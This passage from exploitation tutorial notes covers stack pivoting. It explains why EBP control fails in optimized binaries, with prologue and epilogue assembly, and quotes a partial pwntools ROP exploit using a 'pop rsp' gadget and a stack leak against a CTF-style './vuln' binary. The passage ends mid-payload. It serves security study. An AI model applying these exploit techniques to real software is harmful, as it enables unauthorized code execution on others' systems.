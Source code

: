 ## EBP might not be used

As [**explained in this post**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), if a binary is compiled with some optimizations, the **EBP never gets to control ESP**, therefore, any exploit working by controlling EBP sill basically fail because it doesn't have ay real effect.\
This is because the **prologue and epilogue changes** if the binary is optimized.

* **Not optimized:**

```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

* **Optimized:**

```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

## Other ways to control RSP

### **`pop rsp`** gadget

[**In this page**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) you can find an example using this technique. For this challenge it was needed to call a function with 2 specific arguments, and there was a **`pop rsp` gadget** and there is a **leak from the stack**:

```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
```